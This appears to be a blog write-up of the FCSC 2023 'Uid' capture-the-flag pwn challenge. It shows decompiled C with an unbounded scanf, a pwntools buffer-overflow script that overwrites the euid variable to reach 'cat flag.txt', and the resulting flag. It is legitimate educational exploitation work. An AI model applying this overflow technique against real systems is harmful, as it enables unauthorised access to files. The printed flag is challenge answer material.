 ```yaml
---
title: "[FCSC 2023] - Uid"
date: 2023-04-30
author: me
categories: [writeups]
tags: ["Pwn", "FCSC"]
---
```


<link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/5.15.2/css/all.min.css">
<link rel="stylesheet" href="/assets/css/lil-bootstrap.css">
<script src="https://code.jquery.com/jquery-3.6.0.min.js"></script>

<br>

*On vous demande d'exploiter le binaire fourni pour lire le fichier flag.txt qui se trouve sur le serveur distant.*

`nc challenges.france-cybersecurity-challenge.fr 2100`

<br>

_____________________________________________________

## Given file

We are given an ELF 64-bit binary file.

![0](/images/uid/file.png)

## Decompile

In order to decompile the binary, and get the pseudo-code of functions, I used <a href="https://fr.wikipedia.org/wiki/IDA_Pro_(logiciel)">IDA Decompiler</a>. So, I loaded the file and went to the `main` function.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4[44]; // [rsp+0h] [rbp-30h] BYREF
  __uid_t v5; // [rsp+2Ch] [rbp-4h]

  v5 = geteuid();
  printf("username: ");
  fflush(_bss_start);
  __isoc99_scanf("%s", v4);
  if ( v5 )
    system("cat flop.txt");
  else
    system("cat flag.txt");
  return 0;
}
```

## Analyze

By reading this source code, we uderstand we have to find a way to go through the `else` condition, in order to get the flag. 

We can notice that the length of the user input isn't checked for `v4`. In this case, we can bypass the restricted size of the buffer and overwrite the `v5` value. So, this binary file is vulnerable to a Buffer Overflow attack.

> In Linux based systems, `uid_t` define a non-signed 32-bit integer (4 bytes). So we have to add 4 bytes in our payload in order to totally overwrite the `v5` value.
{: .prompt-tip }

In resume, we have to put 4 null bytes in `v5` for it to be considered as undefined and go into `else` condition.

## Exploit

Here is my python implementation with `pwntools` lib:

```python
from pwn import *

HOST, PORT = "challenges.france-cybersecurity-challenge.fr", 2100

r = remote(HOST, PORT)

offset = 44

payload = b"A" * offset
payload += p32(0)

r.sendline(payload)

print(r.recvall().decode())
```
So our payload will looks like this: `b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x00\x00\x00\x00'`

Here is the `p32()` function documentation : <a href="https://docs.pwntools.com/en/stable/util/packing.html?highlight=p32#pwnlib.util.packing.p32" target="_blank">pwntools - p32</a>

## Flag

```
[x] Opening connection to challenges.france-cybersecurity-challenge.fr on port 2100
[x] Opening connection to challenges.france-cybersecurity-challenge.fr on port 2100: Trying 10.10.10.10
[+] Opening connection to challenges.france-cybersecurity-challenge.fr on port 2100: Done
[x] Receiving all data
[x] Receiving all data: 0B
[x] Receiving all data: 10B
[x] Receiving all data: 81B
[+] Receiving all data: Done (81B)
[*] Closed connection to challenges.france-cybersecurity-challenge.fr port 2100
username: FCSC{3ce9bedca72ad9c23b1714b5882ff5036958d525d668cadeb28742c0e2c56469}
```

> 🚩`FCSC{3ce9bedca72ad9c23b1714b5882ff5036958d525d668cadeb28742c0e2c56469}`